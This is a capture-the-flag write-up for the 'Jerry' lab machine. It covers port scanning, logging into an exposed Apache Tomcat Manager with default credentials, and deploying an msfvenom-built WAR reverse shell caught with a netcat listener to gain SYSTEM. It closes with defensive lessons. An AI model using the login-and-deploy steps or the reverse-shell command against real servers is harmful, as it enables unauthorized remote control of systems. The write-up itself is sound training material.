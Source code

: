 # Jerry Writeup w/o Metasploit

![](../images/max/590/1*6vyFg1efjSxOXiLaY5BQtA.png)

## Reconnaissance <a id="b0d4"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.95 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
Running all scans on 10.10.10.95Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up (0.043s latency).
Not shown: 999 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxyNmap done: 1 IP address (1 host up) scanned in 6.04 seconds---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds----------------------Starting Nmap UDP Scan----------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up.
All 1000 scanned ports on 10.10.10.95 are open|filteredNmap done: 1 IP address (1 host up) scanned in 201.63 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:05 EST
Initiating Parallel DNS resolution of 1 host. at 00:05
Completed Parallel DNS resolution of 1 host. at 00:05, 0.02s elapsed
Initiating SYN Stealth Scan at 00:05
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
.....
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxyRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 262.85 seconds
           Raw packets sent: 131271 (5.776MB) | Rcvd: 324 (33.413KB)No new ports---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:09 EST
/usr/local/bin/nmapAutomator.sh: line 226:  2536 Segmentation fault      $nmapType -sV --script vulners --script-args mincvss=7.0 -p$(echo "${ports}") -oN nmap/CVEs_"$1".nmap "$1"Running Vuln scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:09 EST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
.....Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.18 seconds---------------------Recon Recommendations----------------------Web Servers Recon:
                                                                                                                                                                               
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.95:8080 -o recon/gobuster_10.10.10.95_8080.txt
nikto -host 10.10.10.95:8080 | tee recon/nikto_10.10.10.95_8080.txtWhich commands would you like to run?                                                                                                                                          
All (Default), gobuster, nikto, Skip <!>Running Default in (1) s:---------------------Running Recon Commands----------------------Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     php,html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/20 00:12:20 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
===============================================================
2020/02/20 00:13:08 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2020-02-20 00:13:09 (GMT-5)
--------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2020-02-20 00:19:31 (GMT-5) (382 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                                                                                                                                                                                    
                                                                                                                                                                               
---------------------Finished all Nmap scans---------------------Completed in 18 minute(s) and 8 second(s)
```

We have one port open.

* **Port 8080:** running Apache Tomcat/Coyote JSP engine 1.1

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Port 8080 is running Apache Tomcat and the nmap scan found the _/manager/html_ page, which is the login page to the Manager interface. The nikto scan identified that this page is using the default credentials _tomcat_/_s3cret_. Apache Tomcat by design allows you to run code, so we can simply deploy a war file that sends a reverse shell back to our attack machine.

Since we already have a way to get code execution on the box, we can just move on to the exploitation phase.

## Exploitation <a id="103d"></a>

Visit the _/manager/html_ page and log in with the credentials _tomcat_/_s3cret_.

![](../images/max/1262/0*96G4tbEOOt4tJEtC.png)

Generate a war file that contains a reverse shell using msfvenom.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -f war > shell.war
```

Upload the file on the Tomcat Application Manager and deploy it.

![](../images/max/779/0*Ux835eO81J5k30zh.png)

Set up a listener on the target machine.

```text
nc -nlvp 1234
```

Click on the war file in the Tomcat Application Manager to execute our shell.

![](../images/max/898/1*pvM-CqHbJfyGeOeIA1mpxA.png)

We get a shell with SYSTEM privileges! That was easy! We don’t even have to escalate our privileges for this box.

Grab the _user.txt_ and _root.txt_ flags.

![](../images/max/964/1*HMxNDHZ88LP6-up5-7QdwQ.png)

## Lessons Learned <a id="fbcc"></a>

To get SYSTEM on this box, we exploited two vulnerabilities.

* Use of Default Credentials. There was an exposed port that was running Apache Tomcat. The administrator had used default credentials for the manager interface. This allowed us to access the interface and deploy a war file that gave us access to the server. Since default credentials are publicly available and can be easily obtained, the administrator should have instead used a sufficiently long password that is difficult to crack.
* Least Privilege Violation. Tomcat doesn’t need SYSTEM privileges to function properly. Instead it should have been run under a tomcat user account that has limited privileges. This way, even if we did get access to the box, we would have needed to find a way to escalate privileges, instead of immediately getting SYSTEM access without having to work for it. The administrator should have conformed to the principle of least privilege.


